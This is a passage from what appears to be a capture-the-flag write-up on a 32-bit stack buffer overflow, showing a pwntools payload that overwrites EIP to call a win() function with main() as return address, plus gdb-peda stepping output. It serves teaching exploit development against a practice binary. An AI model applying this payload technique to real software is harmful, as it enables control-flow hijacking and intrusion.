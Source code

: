 Great!  We in fact call the `win()` function.
Now we need to pass in the required parameters.
Here's how functions are laid out on the stack.

![stack layout](https://manybutfinite.com/img/stack/stackIntro.png)

We can see that to call a function with parameters, we need to include the `EBP` register (base pointer) alongside a return address. This can simply be `main()`. 

Let's manipulate our exploit to find the address of  the main function and include it in our payload.

```python
log.info(f"MAIN: {elf.symbols.main}")
[ . . . ]
payload = flat(
	{cyclic_find(core.eip): elf.symbols.win},
	elf.symbols.main # return address
)
[ . . . ]
```

```bash
$ python exploit.py
[ . . . ]
[*] EIP: 1650549092
[*] win: 134517398
[*] main: 134517618
[+] Written payload in pattern.txt
```

Alright. Now to understand a bit more about what is happening under the hood when we use this payload, we can use `gdb`. 
Let's again set a breakpoint at our `win()` function.

```bash
$ gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln
gdb-peda$ b *win
Breakpoint 1 at 0x8049296
```

Now we run the program with our payload as input and use the `ni` (next instruction) command to move at the `ret` instruction.

```bash
gdb-peda$ ni
[ . . . ]
[-------------------------------------code-------------------------------------]
   0x8049332 <win+156>: nop
   0x8049333 <win+157>: mov    ebx,DWORD PTR [ebp-0x4]
   0x8049336 <win+160>: leave  
=> 0x8049337 <win+161>: ret    
   0x8049338 <vuln>:    endbr32 
   0x804933c <vuln+4>:  push   ebp
   0x804933d <vuln+5>:  mov    ebp,esp
   0x804933f <vuln+7>:  push   ebx
[------------------------------------stack-------------------------------------]
0000| 0xffffcf00 --> 0x8049372 (<main>: endbr32)
0004| 0xffffcf04 --> 0xf7fc1600 --> 0xf7c00034 --> 0x6 
0008| 0xffffcf08 --> 0xf7fc1b40 --> 0xf7c1f2bc ("GLIBC_PRIVATE")
0012| 0xffffcf0c --> 0x3e8 
0016| 0xffffcf10 --> 0xffffcf30 --> 0x1 
0020| 0xffffcf14 --> 0xf7e1cff4 --> 0x21cd8c 
0024| 0xffffcf18 --> 0x0 
0028| 0xffffcf1c --> 0xf7c23295 (add    esp,0x10)
[------------------------------------------------------------------------------]
```